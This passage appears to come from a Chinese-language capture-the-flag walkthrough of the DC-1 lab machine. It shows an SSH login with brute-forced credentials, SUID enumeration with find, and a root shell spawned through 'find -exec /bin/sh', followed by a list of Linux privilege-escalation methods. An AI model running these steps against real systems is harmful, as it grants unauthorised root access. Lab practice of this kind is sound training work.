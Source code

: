 爆破得到，DC1的一个用户名密码为：flag4/orange， 所以我们新打开一个终端，采用ssh协议直接连接

```
ssh flag4@192.168.119.134
```

![image-20221001104625672](https://luminary74-1312852271.cos.ap-beijing.myqcloud.com/202210011046708.png)

输入密码，连接成功！

根据flag4的提示，是要我们拿到root用户权限，才能拿到最终的flag

```
find / -perm -4000 2>/dev/null
```

![image-20221001105135889](https://luminary74-1312852271.cos.ap-beijing.myqcloud.com/202210011051927.png)

 发现_find_具有root权限。直接执行命令提权。

```bash
find -exec /bin/sh \;
```

![image-20221001105305625](https://luminary74-1312852271.cos.ap-beijing.myqcloud.com/202210011053652.png)

liunx提权一般有四种提权方式：

```
sudo提权，通过命令sudo -l查看是否有可提权的命令。
suid提权，通过命令find / -perm -4000 2>/dev/null查看是否具有root权限的命令
系统版本内核提权
通过数据库提权
```

